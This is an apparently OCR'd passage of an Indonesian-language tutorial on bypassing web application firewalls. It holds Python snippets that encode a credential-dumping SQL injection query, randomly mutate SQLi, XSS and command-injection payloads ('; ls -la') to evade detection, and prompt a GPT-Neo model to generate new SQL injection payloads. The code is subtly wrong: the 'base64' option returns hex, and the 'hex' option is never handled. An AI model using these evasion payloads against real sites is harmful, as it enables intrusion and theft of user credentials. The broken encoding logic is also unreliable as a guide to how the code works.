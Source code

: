 **Contoh Payload SQLi Terenkripsi Base64:**  
```python
import base64

payload = "UNION SELECT username, password FROM users"
encoded_payload = base64.b64encode(payload.encode()).decode()

print(f"Encoded SQLi: {encoded_payload}")
```

---

## 🎭 Adaptive Payloads

Adaptive payloads adalah teknik di mana **payload otomatis berubah** berdasarkan respons target.

**🔹 Teknik:**  
1. **Randomization** → Mengacak karakter untuk menghindari deteksi.  
2. **Mutation** → Mengubah format payload secara otomatis.  
3. **Encoding Chains** → Menggunakan banyak encoding (Base64, URL encode, Hex).  

**Contoh Implementasi Adaptive Payload Generator:**  
```python
import random

payloads = ["' OR '1'='1", "<script>alert(1)</script>", "; ls -la"]
mutations = ["base64", "url_encode", "hex"]

def mutate_payload(payload, method):
    if method == "base64":
        return payload.encode("utf-8").hex()
    elif method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    return payload

selected_payload = random.choice(payloads)
selected_method = random.choice(mutations)

bypass_payload = mutate_payload(selected_payload, selected_method)
print(f"Generated Adaptive Payload: {bypass_payload}")
```

---

## 🚀 Automasi Bypass WAF dengan AI

**🔹 Teknik AI dalam WAF Bypass:**  
- **Adversarial ML Attacks** → Menggunakan **Deep Learning** untuk memprediksi pola deteksi WAF.  
- **Generative Payloads** → Menggunakan AI seperti GPT-4 untuk **menciptakan payload unik** yang tidak terdeteksi.  

**Contoh Model AI untuk Menghasilkan Payload SQLi:**  
```python
from transformers import pipeline

generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")
payload = generator("Generate a unique SQL Injection payload:", max_length=50)

print(f"AI-Generated Payload: {payload}")
```

---